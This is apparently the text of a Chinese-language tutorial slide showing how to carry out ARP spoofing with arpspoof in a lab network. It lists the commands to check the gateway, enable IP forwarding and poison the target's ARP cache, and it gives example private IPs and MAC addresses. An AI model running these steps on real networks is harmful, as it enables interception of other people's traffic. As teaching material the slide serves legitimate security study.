

使用arpspoof工具实施arp欺骗
查看默认网关：routel | grep default
开启路由转发：
~#echo 1 > /proc/sys/net/ipv4/ip_forward
~#cat /proc/sys/net/ipv4/ip_forward
~#ifconfig
~#arp   (需要提前安装arpspoof)
告诉目标主机IP1的网关IP2的MAC地址为攻击机的MAC
~#arpspoof –i eth0 –t IP1 IP2
攻击IP:   192.168.77.128         ether   00:0c:29:39:20:27
网关IP2：192.168.77.2             ether   00:50:56:f4:5b:1b
目标IP1：192.168.77.133         ether   00:0c:29:31:40:d5